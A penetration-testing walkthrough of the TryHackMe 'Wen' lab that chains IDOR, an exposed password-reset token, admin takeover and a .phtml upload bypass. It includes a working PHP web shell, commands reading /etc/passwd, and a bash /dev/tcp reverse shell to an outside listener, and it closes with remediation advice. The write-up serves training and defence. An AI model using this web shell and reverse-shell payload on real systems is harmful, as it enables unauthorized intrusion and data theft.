# Guided Pentest: Wen (TryHackMe)

Professional walkthrough of the TryHackMe **Wen** machine, covering reconnaissance, web enumeration, IDOR, weak password reset abuse, administrator takeover, file upload bypass, web shell execution, reverse shell access, and flag retrieval.

> Educational use only. This write-up documents an authorized lab environment.

## Table of Contents

- [Attack Chain](#attack-chain)
- [Reconnaissance](#reconnaissance)
- [HTTP Enumeration](#http-enumeration)
- [Directory Enumeration](#directory-enumeration)
- [Application Access](#application-access)
- [API Enumeration](#api-enumeration)
- [IDOR](#idor)
- [Weak Password Reset](#weak-password-reset)
- [Admin Account Takeover](#admin-account-takeover)
- [File Upload Bypass](#file-upload-bypass)
- [Web Shell and RCE](#web-shell-and-rce)
- [Reverse Shell](#reverse-shell)
- [Flag Retrieval](#flag-retrieval)
- [Remediation Summary](#remediation-summary)
- [Conclusion](#conclusion)

## Attack Chain

| Step | Technique | Result |
| --- | --- | --- |
| 1 | Nmap reconnaissance | Identified SSH, Apache, MySQL, and Apache on port 8080 |
| 2 | HTTP and directory enumeration | Found `/admin`, `/api`, `/reset.php`, `/uploads`, and authenticated routes |
| 3 | IDOR | Retrieved administrator profile information |
| 4 | Weak password reset | Generated and viewed the administrator reset token |
| 5 | Admin takeover | Reset the administrator password and logged in |
| 6 | Upload bypass | Uploaded executable `.phtml` content |
| 7 | Web shell | Achieved command execution as `www-data` |
| 8 | Reverse shell | Upgraded command execution to an interactive shell |
| 9 | Flag read | Retrieved the target flag |

## Reconnaissance

I began with a full-port Nmap scan using default scripts and service detection:

```bash
nmap -sV -sC -p- 10.49.170.17
```



Open services:

| Port | Service | Details |
| --- | --- | --- |
| `22/tcp` | SSH | OpenSSH on Ubuntu |
| `80/tcp` | HTTP | Apache HTTP Server |
| `3306/tcp` | MySQL | MySQL service |
| `8080/tcp` | HTTP | Apache default page |

The service list suggested a LAMP-style web stack using Apache, PHP, and MySQL.

## HTTP Enumeration

I checked the HTTP headers:

```bash
curl -I 10.49.170.17
```



The response identified:

- `Apache/2.4.58`
- A `PHPSESSID` cookie
- `Content-Type: text/html; charset=UTF-8`

The cookie confirmed PHP session management was in use.

## Directory Enumeration

Next, I used Gobuster to enumerate PHP routes and directories:

```bash
gobuster dir -u 10.48.141.39 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php
```



Notable findings:

| Path | Notes |
| --- | --- |
| `/admin/` | Administrative area |
| `/api/` | API endpoint listing |
| `/reset.php` | Password reset page |
| `/uploads/` | Upload storage |
| `/profile.php` | User profile route |
| `/dashboard.php` | Authenticated dashboard |

## Application Access

After authenticating as a normal user, I reached the candidate dashboard.



The session belonged to a standard candidate account, which made the later authorization bypass more meaningful.

## API Enumeration

The `/api/` route exposed available API endpoints:

```bash
curl http://10.48.141.39/api/
```



Returned endpoints:

```json
{"endpoints":["/api/user","/api/jobs","/api/applications"]}
```

## IDOR

The profile page accepted a user-controlled `id` parameter:

```bash
curl -s -b "PHPSESSID=5icud3j012klc1o05uuh9l2vkh" "http://10.48.141.39/profile.php?id=1" | grep "fw-semibold"
```



The API also returned user data by ID:

```bash
curl -s "http://10.48.141.39/api/user?id=1"
curl -s "http://10.48.141.39/api/user?id=2"
```

This exposed the administrator account:

| Field | Value |
| --- | --- |
| Name | Sarah Mitchell |
| Email | `s.mitchell@recruitx.thm` |
| Role | `administrator` |

The issue was an **Insecure Direct Object Reference (IDOR)** because a normal authenticated user could access another user's profile data by changing the `id` parameter.

## Weak Password Reset

The password reset page generated a token after an email address was submitted.



The application displayed the reset token and reset URL directly in the page. Additional attempts showed the same insecure behavior:





The reset tokens were six-digit numeric values, and the workflow exposed them to the browser instead of delivering them only through email.

## Admin Account Takeover

Using the administrator email discovered through IDOR, I requested a reset token for Sarah Mitchell:



The application generated the following reset URL pattern:

```text
/reset.php?token=773535&email=s.mitchell%40recruitx.thm
```

Opening the reset URL allowed me to set a new administrator password.



After the password reset, I logged in as the administrator.



## File Upload Bypass

The administrator panel contained a company document upload function.



The UI stated that files were stored in:

```text
/uploads/documents/
```

The expected file types were PDF, DOCX, JPG, and PNG. Browser inspection showed this was enforced client-side with an `accept` attribute:



```html
accept=".pdf,.docx,.jpg,.png"
```

The server rejected `.txt` and `.php`, but accepted a `.phtml` file. I first verified execution with:

```php
<?php echo "PHP is executing"; ?>
```



This confirmed that uploaded `.phtml` files were interpreted as PHP.

## Web Shell and RCE

I uploaded a simple PHP web shell:

```php
<?php
if(isset($_GET['cmd'])) {
    echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
}
?>
```

Then I tested command execution:

```bash
curl "http://10.48.145.146/uploads/documents/shell.phtml?cmd=whoami"
curl "http://10.48.145.146/uploads/documents/shell.phtml?cmd=id"
curl "http://10.48.145.146/uploads/documents/shell.phtml?cmd=hostname"
curl "http://10.48.145.146/uploads/documents/shell.phtml?cmd=uname+-a"
```



The commands executed as `www-data`, confirming remote code execution as the Apache web server user.

I also used the web shell to read `/etc/passwd`:

```bash
curl "http://10.48.145.146/uploads/documents/shell.phtml?cmd=cat+/etc/passwd" | grep -v "nologin"
```



This revealed local users such as `root`, `ubuntu`, `mysql`, and `qa`.

## Reverse Shell

To upgrade from web shell command execution to an interactive shell, I started a listener:

```bash
nc -lvnp 4444
```



Then I triggered a URL-encoded Bash reverse shell payload through the web shell:

```bash
curl "http://10.48.145.146/uploads/documents/shell.phtml?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/192.168.247.167/4444+0>%261'"
```



The listener received a shell as `www-data`.

## Flag Retrieval

From the interactive shell, I read the flag:

```bash
cat /var/www/flag.txt
```



The lab objective was complete.

## Remediation Summary

| Vulnerability | Severity | Recommendation |
| --- | --- | --- |
| IDOR on profile and API routes | High | Enforce server-side authorization checks for every object access. Users should only access resources they own or are explicitly permitted to view. |
| Reset token exposed in browser response | Critical | Send reset links only through the registered email address. Never display reset tokens in the web response. |
| Weak reset token design | Critical | Use cryptographically random, single-use, expiring tokens. Add rate limiting and logging for reset attempts. |
| Incomplete upload filtering | Critical | Use a strict server-side allowlist, validate file content and MIME type, and reject executable formats. |
| Executable uploads in web root | Critical | Store uploads outside the web root or disable script execution in upload directories. Serve uploaded files through a controlled handler. |
| API endpoint disclosure | Medium | Remove unnecessary endpoint listings or restrict them to authorized users. |

## Conclusion

This machine shows how multiple weaknesses can combine into a full compromise. The IDOR exposed the administrator email, the reset workflow exposed the token, the administrator account unlocked file upload functionality, and the upload filter allowed a `.phtml` bypass that led to remote code execution.

The most important takeaway is that security controls need to hold across the full workflow. Authorization, password reset design, upload validation, and server execution rules all failed in ways that made the final compromise possible.
